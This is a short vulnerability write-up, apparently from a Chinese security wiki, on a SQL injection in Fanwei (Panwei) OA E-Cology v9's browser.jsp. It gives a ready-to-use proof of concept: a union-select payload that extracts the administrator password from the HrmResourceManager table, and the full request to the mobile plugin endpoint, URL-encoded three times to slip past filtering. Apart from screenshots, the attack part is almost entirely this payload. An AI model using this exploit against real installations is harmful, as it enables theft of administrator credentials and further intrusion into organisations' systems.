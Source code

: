 # Panwei OA E-Cology browser.jsp SQL injection vulnerability

## Vulnerability Description

Panwei OA E-Cology browser.jsp There is a SQL injection vulnerability, and attackers can obtain sensitive database information through the vulnerability and further attack

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Fanwei E-Cology v9</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1676091526166-ba4ab485-edae-45c1-8630-bcc5a8d9a92f.png)

Verify POC, encode the SQL statement 3 times URL

```plain
asdasdasxx%' union select 1,(select password from HrmResourceManager where id=1) union select 1,'1
/mobile/%20/plugin/browser.jsp?isDis=1&browserTypeId=269&keyword=%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%38%25%32%35%25%33%37%25%33%38%25%32%35%25%33%32%25%33%35%25%32%35%25%33%32%25%33%37%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%36%33%25%32%35%25%33%32%25%33%38%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%30%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%37%25%32%35%25%33%36%25%36%36%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%36%25%33%36%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%34%25%33%38%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%36%34%25%32%35%25%33%35%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%36%36%25%32%35%25%33%37%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%34%25%36%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%37%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%37%25%32%35%25%33%36%25%33%38%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%33%34%25%32%35%25%33%33%25%36%34%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%33%39%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%36%33%25%32%35%25%33%32%25%33%37%25%32%35%25%33%33%25%33%31
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1676091641750-23f7219b-d038-4368-8013-c8778268ef09.png)